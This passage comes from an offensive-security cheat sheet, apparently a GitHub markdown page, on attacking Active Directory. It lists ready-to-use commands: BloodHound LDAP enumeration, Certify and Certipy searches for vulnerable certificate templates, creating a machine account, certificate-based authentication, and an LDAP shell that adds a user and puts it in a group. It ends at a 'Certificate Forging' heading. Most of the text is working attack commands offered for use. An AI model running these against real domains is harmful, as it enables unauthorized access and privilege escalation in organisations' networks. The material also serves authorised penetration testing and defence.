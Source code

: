 #### LDAP Dumping

```c
$ bloodhound-python -u <USERNAME> -p '<PASSWORD>' -ns <RHOST> -d <DOMAIN> -c All
```

#### Parsing

```c
$ cat 20220629013701_users.json | jq | grep \"name\"
```

### Certify

> https://github.com/GhostPack/Certify

```c
PS C:\> Certify find /vulnerable
PS C:\> Certify.exe find /vulnerable /currentuser
```

### Certipy

> https://github.com/ly4k/Certipy

> https://github.com/ly4k/BloodHound/

#### Common Commands

```c
$ certipy find -dc-ip <RHOST> -u <USERNAME>@<DOMAIN> -p <PASSWORD>
```

#### Certificate Handling

**Account Creation**

```c
$ certipy account create -username <USERNAME>@<DOMAIN> -password <PASSWORD> -dc-ip <RHOST> -dns <DOMAIN_CONTROLLER_DNS_NAME> -user <COMPUTERNAME>
```

**Authentication**

```c
$ certipy auth -pfx <FILE>.pfx -dc-ip <RHOST> -u <USERNAME> -domain <DOMAIN>
```

**LDAP-Shell**

```c
$ certipy auth -pfx <FILE>.pfx -dc-ip <RHOST> -u <USERNAME> -domain <DOMAIN> -ldap-shell
```

```c
# add_user <USERNAME>
# add_user_to_group <GROUP>
```

**Certificate Forging**
